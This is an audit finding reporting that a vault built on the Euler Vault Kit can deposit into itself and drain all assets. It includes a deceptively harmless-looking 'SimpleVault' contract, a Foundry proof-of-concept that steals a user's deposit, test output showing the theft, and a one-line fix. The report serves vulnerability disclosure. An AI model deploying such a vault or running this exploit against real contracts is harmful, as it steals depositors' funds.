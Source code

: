# EVK Vault module can Deposit to itself allowing to Drain all Assets

## Relevant Context
A seemingly harmless SimpleVault inheriting from the EVK can drain all the Assets of the Vault.

## Finding Description
The EVK VaultModule can deposit into itself, causing an internal inconsistency between the actual Vault balance and `totalAssets()`.
(more precisely between `asset.balanceOf(address(vault))` and `vault.totalAssets()`), even without using any borrowing functionnality.

SimpleVault, a contract inheriting from EVault, that appears completely harmless on its own, can exploit this inconsistency by calling VaultModule code to drain all the Assets of the Vault.


**`SimpleVault` code:**
<details  open>


```solidity

// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {EVault} from "src/EVault/EVault.sol";
import {IEVault} from "src/EVault/IEVault.sol";
import {Base} from "src/EVault/shared/Base.sol";

interface ISimpleVaultBase {
    function stake(uint256, address) external returns (uint256);
    function unstake(uint256, address, address) external returns (uint256);
}

interface ISimpleVault is IEVault, ISimpleVaultBase {}

contract SimpleVault is ISimpleVaultBase, EVault {
    constructor(Integrations memory integrations, DeployedModules memory modules) EVault(integrations, modules) {}

    /// Define aliases for 2 main Vault functions
    //  stake == deposit
    function stake(uint256 amount, address receiver) external returns (uint256) {
        return this.deposit(amount, receiver);
    }

    // unstake == withdraw
    function unstake(uint256 amount, address receiver, address owner) external returns (uint256) {
        return this.withdraw(amount, receiver, owner);
    }
}
```
</details>

The hack here is to call `this.deposit` and `this.withdraw` instead of `deposit` and `withdraw` to enable the Vault to be the actual caller. So depositing into itself, implying it's own balance unchanged (due to a trasfer of Assets to itsef, sort of `transfer(from, to)` with `to == from`)

So anyone can call `stake` with `totalAssets()` amount, and then call `unstake` with the same amount, draining all the Assets of the Vault in 2 transactions.


## Impact Explanation
EVK is unsecure, and can't be used as is as a Kit. If anyone promote a Vault like `SimpleVault` or any other form of EVK derivated Vault, inheriting from `EVault`, extanding it with new modules or modifying existing EVK code, can exploit this weakness and steal all users funds deposited in the Vault, event if the Vault is permissionless.

Main concern here is that `SimpleVault` seems harmless, but use one invisible EVK weakness.


## Likelihood Explanation
As soon as this type of derivated Vault from EVK is deployed, it can be exploited.

The likelihood is high, as the code is public and the exploit is easy to understand and implement.

The only hurdle is to promote this malicious Vault, without audits (saying "it's only 2 lines of code added..."), to attract users and encourange them to deposit funds in it.

Impact is that all sort of Vault like `SimpleVault` derivated from the EVK can drain all the Assets in 2 transactions.


## Proof of Concept
Weakness has been found via a Certora rule.

**Certora rule detecting the issue**
<details  open>

```solidity

// Shares are returned only and only if balance of actual caller strictly decrease
rule depositShares(env e, calldataarg args) {
  address caller = actualCaller(e);

  mathint _balanceCaller = userAssets(e, caller);
  uint256 shares = deposit(e, args);
  mathint balanceCaller_ = userAssets(e, caller);

  assert shares > 0 <=> balanceCaller_ < _balanceCaller;
}
```
</details>

This rule has counter examples only when `actualCaller == vault`, i.e. `shares > 0` without balance change

Here is a POC with a forge test, including traces and asserts:

**`DepositSelfHack` POC contract - File `test/Vault/DepositSelfHack.sol`:**
<details>

```solidity

 // SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.0;

import {SimpleVaultTest} from "./SimpleVault.t.sol";
import {ISimpleVault} from "src/EVault/SimpleVault.sol";
import {console2} from "forge-std/Test.sol";

contract DepositSelfHack is SimpleVaultTest {
    uint256 one = 1e18;
    address user = makeAddr("user");
    address hacker = makeAddr("hacker");

    function _log(string memory label) public view {
        console2.log(label, "| User   Balance :", assetTST.balanceOf(user));
        console2.log(label, "| Vault  Balance :", assetTST.balanceOf(address(eTST)));
        console2.log(label, "| Total  Assets  :", eTST.totalAssets());
        console2.log(label, "| Hacker Balance :", assetTST.balanceOf(hacker));
        console2.log("------------------------|-------------------------------------");
    }

    function test_depositSelfHack() public {
        assetTST.mint(user, one);
        _log("       User   Mint    1");

        hoax(user);
        assetTST.approve(address(eTST), one);

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == one);
        assert(assetTST.balanceOf(hacker) == 0);

        hoax(user);
        eTST.deposit(one, user);
        _log("       User   Deposit 1");

        ISimpleVault(address(eTST)).stake(one, address(eTST));
        _log("Buggy  Vault  Deposit 1");

        ISimpleVault(address(eTST)).unstake(one, hacker, address(eTST));
        _log("Hacker Vault  Steal   1");

        assert(assetTST.balanceOf(address(eTST)) == 0);
        assert(assetTST.balanceOf(user) == 0);
        assert(assetTST.balanceOf(hacker) == one);
    }
}

```
</details>

**`SimpleVault` Test Setup - File `test/Vault/SimpleVaultTest.sol`:**
<details>

```solidity
// SPDX-License-Identifier: GPL-2.0-or-later
pragma solidity ^0.8.13;

import {Test, console2, stdError} from "forge-std/Test.sol";
import {DeployPermit2} from "permit2/test/utils/DeployPermit2.sol";

import {GenericFactory} from "src/GenericFactory/GenericFactory.sol";

import {ProtocolConfig} from "src/ProtocolConfig/ProtocolConfig.sol";

import {Dispatch} from "src/EVault/Dispatch.sol";

import {Initialize} from "src/EVault/modules/Initialize.sol";
import {Token} from "src/EVault/modules/Token.sol";
import {Vault} from "src/EVault/modules/Vault.sol";
import {Borrowing} from "src/EVault/modules/Borrowing.sol";
import {Liquidation} from "src/EVault/modules/Liquidation.sol";
import {BalanceForwarder} from "src/EVault/modules/BalanceForwarder.sol";
import {Governance} from "src/EVault/modules/Governance.sol";
import {RiskManager} from "src/EVault/modules/RiskManager.sol";

// import {EVault} from "src/EVault/EVault.sol";
// import {ISimpleVault, IERC20} from "src/EVault/ISimpleVault.sol";
import {SimpleVault, ISimpleVault} from "src/EVault/SimpleVault.sol";

import {TypesLib} from "src/EVault/shared/types/Types.sol";
import {Base} from "src/EVault/shared/Base.sol";

import {EthereumVaultConnector} from "ethereum-vault-connector/EthereumVaultConnector.sol";

import {TestERC20} from "test/mocks/TestERC20.sol";
import {MockBalanceTracker} from "test/mocks/MockBalanceTracker.sol";
import {MockPriceOracle} from "test/mocks/MockPriceOracle.sol";
import {IRMTestDefault} from "test/mocks/IRMTestDefault.sol";
import {IHookTarget} from "src/interfaces/IHookTarget.sol";
import {SequenceRegistry} from "src/SequenceRegistry/SequenceRegistry.sol";

import {AssertionsCustomTypes} from "test/helpers/AssertionsCustomTypes.sol";

import "src/EVault/shared/Constants.sol";

contract SimpleVaultTest is AssertionsCustomTypes, Test, DeployPermit2 {
    EthereumVaultConnector public evc;
    address admin;
    address feeReceiver;
    address protocolFeeReceiver;
    ProtocolConfig protocolConfig;
    address balanceTracker;
    MockPriceOracle oracle;
    address unitOfAccount;
    address permit2;
    address sequenceRegistry;
    GenericFactory public factory;

    TestERC20 assetTST;

    ISimpleVault public eTST;

    address initializeModule;
    address tokenModule;
    address vaultModule;
    address borrowingModule;
    address liquidationModule;
    address riskManagerModule;
    address balanceForwarderModule;
    address governanceModule;

    Base.Integrations integrations;
    Dispatch.DeployedModules modules;

    function setUp() public virtual {
        admin = vm.addr(1000);
        feeReceiver = makeAddr("feeReceiver");
        protocolFeeReceiver = makeAddr("protocolFeeReceiver");
        factory = new GenericFactory(admin);

        evc = new EthereumVaultConnector();
        protocolConfig = new ProtocolConfig(admin, protocolFeeReceiver);
        balanceTracker = address(new MockBalanceTracker());
        oracle = new MockPriceOracle();
        unitOfAccount = address(1);
        permit2 = deployPermit2();
        sequenceRegistry = address(new SequenceRegistry());
        integrations =
            Base.Integrations(address(evc), address(protocolConfig), sequenceRegistry, balanceTracker, permit2);

        initializeModule = address(new Initialize(integrations));
        tokenModule = address(new Token(integrations));
        vaultModule = address(new Vault(integrations));
        borrowingModule = address(new Borrowing(integrations));
        liquidationModule = address(new Liquidation(integrations));
        riskManagerModule = address(new RiskManager(integrations));
        balanceForwarderModule = address(new BalanceForwarder(integrations));
        governanceModule = address(new Governance(integrations));

        modules = Dispatch.DeployedModules({
            initialize: initializeModule,
            token: tokenModule,
            vault: vaultModule,
            borrowing: borrowingModule,
            liquidation: liquidationModule,
            riskManager: riskManagerModule,
            balanceForwarder: balanceForwarderModule,
            governance: governanceModule
        });

        address evaultImpl = address(new SimpleVault(integrations, modules));

        vm.prank(admin);
        factory.setImplementation(evaultImpl);

        assetTST = new TestERC20("Test Token", "TST", 18, false);
        eTST = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(assetTST), address(oracle), unitOfAccount))
        );
        eTST.setInterestRateModel(address(new IRMTestDefault()));
        eTST.setMaxLiquidationDiscount(0.2e4);
        eTST.setFeeReceiver(feeReceiver);
    }

    address internal SYNTH_VAULT_HOOK_TARGET = address(new MockHook());
    uint32 internal constant SYNTH_VAULT_HOOKED_OPS = OP_DEPOSIT | OP_MINT | OP_REDEEM | OP_SKIM | OP_REPAY_WITH_SHARES;

    function createSynthEVault(address asset) internal returns (ISimpleVault) {
        ISimpleVault v = ISimpleVault(
            factory.createProxy(address(0), true, abi.encodePacked(address(asset), address(oracle), unitOfAccount))
        );
        v.setInterestRateModel(address(new IRMTestDefault()));

        v.setInterestFee(1e4);

        v.setHookConfig(SYNTH_VAULT_HOOK_TARGET, SYNTH_VAULT_HOOKED_OPS);

        return v;
    }

    function getSubAccount(address primary, uint8 subAccountId) internal pure returns (address) {
        require(subAccountId <= 256, "invalid subAccountId");
        return address(uint160(uint160(primary) ^ subAccountId));
    }
}

contract MockHook is IHookTarget {
    error E_OnlyAssetCanDeposit();
    error E_OperationDisabled();

    function isHookTarget() external pure override returns (bytes4) {
        return this.isHookTarget.selector;
    }

    // deposit is only allowed for the asset
    function deposit(uint256, address) external view {
        address asset = ISimpleVault(msg.sender).asset();

        // these calls are just to test if there's no RO-reentrancy for the hook target
        ISimpleVault(msg.sender).totalBorrows();
        ISimpleVault(msg.sender).balanceOf(address(this));

        if (asset != caller()) revert E_OnlyAssetCanDeposit();
    }

    // all the other hooked ops are disabled
    fallback() external {
        revert E_OperationDisabled();
    }

    function caller() internal pure returns (address _caller) {
        assembly {
            _caller := shr(96, calldataload(sub(calldatasize(), 20)))
        }
    }
}

```
</details>

**`forge test --mt depositSelfHack -vv` produces this output:**
<details open>

```
 » forge test --mt depositSelfHack -vv
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/Vault/DepositSelfHack.t.sol:SimpleVault_DepositSelfHack
[PASS] test_depositSelfHack() (gas: 379373)
Logs:
         User   Mint    1 | User   Balance : 1000000000000000000
         User   Mint    1 | Vault  Balance : 0
         User   Mint    1 | Total  Assets  : 0
         User   Mint    1 | Hacker Balance : 0
  ------------------------|-------------------------------------
         User   Deposit 1 | User   Balance : 0
         User   Deposit 1 | Vault  Balance : 1000000000000000000
         User   Deposit 1 | Total  Assets  : 1000000000000000000
         User   Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Buggy  Vault  Deposit 1 | User   Balance : 0
  Buggy  Vault  Deposit 1 | Vault  Balance : 1000000000000000000
  Buggy  Vault  Deposit 1 | Total  Assets  : 2000000000000000000
  Buggy  Vault  Deposit 1 | Hacker Balance : 0
  ------------------------|-------------------------------------
  Hacker Vault  Steal   1 | User   Balance : 0
  Hacker Vault  Steal   1 | Vault  Balance : 0
  Hacker Vault  Steal   1 | Total  Assets  : 1000000000000000000
  Hacker Vault  Steal   1 | Hacker Balance : 1000000000000000000
  ------------------------|-------------------------------------

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 4.88ms (1.05ms CPU time)

Ran 1 test suite in 154.01ms (4.88ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
</details>

## Recommendation

To prevent this weakness, add a one line check to prevent the Vault from depositing to itself.

**`Vault.sol` `deposit` function - Lines 123-128 of File `src/EVault/modules/Vault.sol`:**
<details  open>

```diff
    /// @inheritdoc IERC4626
    function deposit(uint256 amount, address receiver) public virtual nonReentrant returns (uint256) {
        (VaultCache memory vaultCache, address account) = initOperation(OP_DEPOSIT, CHECKACCOUNT_NONE);
+       require(account != address(this), "Vault: cannot deposit to self");

        Assets assets = amount == type(uint256).max ? vaultCache.asset.balanceOf(account).toAssets() : amount.toAssets();
        if (assets.isZero()) return 0;

```

</details>